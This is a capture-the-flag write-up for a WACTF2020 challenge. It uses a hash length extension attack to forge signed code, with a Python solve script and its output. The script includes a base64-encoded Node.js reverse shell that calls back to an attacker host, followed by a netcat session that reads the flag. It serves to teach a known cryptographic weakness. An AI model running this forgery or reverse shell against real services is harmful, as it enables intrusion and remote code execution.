 # s3cur3 r3pl | WACTF2020

## Problem
Gain remote code execution and read flag from flag.txt.  
Service: http://crypto-4 
  
![UI Screenshot](shot.png)
  
## Solution
References:
- https://pequalsnp-team.github.io/cheatsheet/crypto-101
- https://en.wikipedia.org/wiki/Length_extension_attack
  
The page explains how the code is signed by concatentating the API key (the secret), together with some code which the user can input. This means of signing is vulnerable to a hash length extension attack in which the input to the hash can be extended to include new data, without needing to know what came before it.

```python
#!/usr/bin/env python3

import requests
from hashpumpy import hashpump
from base64 import b64decode, b64encode

# Example:
# https://ctftime.org/writeup/15069

originalData = 'ZnVuY3Rpb24gaGVsbG8obmFtZSkgewogIHJldHVybiAnSGVsbG8gJyArIG5hbWUgKyAnISc7Cn0KCmhlbGxvKCdXb3JsZCcpOyAvLyBzaG91bGQgcHJpbnQgJ0hlbGxvIFdvcmxkJw=='
originalSig = 'aaa8111b4871b48dc6c0ac4c33ef9e1b'
testData = b64decode('OwpoZWxsbygnSmFjaycpOw==')
rceData = b64decode('OwooZnVuY3Rpb24oKXsKdmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLApjcCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKSwKc2ggPSBjcC5zcGF3bigiL2Jpbi9zaCIsIFtdKTsKdmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7CmNsaWVudC5jb25uZWN0KDEzMzcsICIxMC4wLjM3LjM0IiwgZnVuY3Rpb24oKXsKY2xpZW50LnBpcGUoc2guc3RkaW4pOwpzaC5zdGRvdXQucGlwZShjbGllbnQpOwpzaC5zdGRlcnIucGlwZShjbGllbnQpOwp9KTsKcmV0dXJuIC9hLzsKfSkoKTs=')

def forge(keyLen, addedData=testData):
    newHash, newData = hashpump(originalSig, b64decode(originalData), addedData, keyLen)
    return newHash, b64encode(newData)

def postData(sig, code):
    resp = requests.post('http://crypto-4', json={'sig':sig, 'code':code})
    return resp.text

for i in range(50):
    forgedSig, forgedData = forge(i)
    ret = postData(forgedSig, forgedData)

    if 'invalid' not in ret:
        print(f'\n{ret}\nkeyLen: {i}')
        
        forgedSig, forgedData = forge(i, rceData)
        print(postData(forgedSig, forgedData))
        break
```

With this script I first figure out the length of the secret, and then create some signed code with a node.js reverse shell payload which will connect to my shellbox.

```bash
┌──(kali㉿kali)-[~/Desktop/WACTF/crypto4]
└─$ ./solve.py  
./solve.py:26: DeprecationWarning: PY_SSIZE_T_CLEAN will be required for '#' formats
  newHash, newData = hashpump(originalSig, b64decode(originalData), addedData, keyLen)

{"result":"Hello Jack!"}
keyLen: 37
{"result":{}}
```

Catch the reverse shell and get the flag.

```bash
shellbox:~$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 10.0.16.21 59671 received!
ls
flag.txt
index.js
node_modules
package-lock.json
package.json
public
views
cat flag.txt
WACTF{76656ebc7cc6d6267529456ad9179672}
```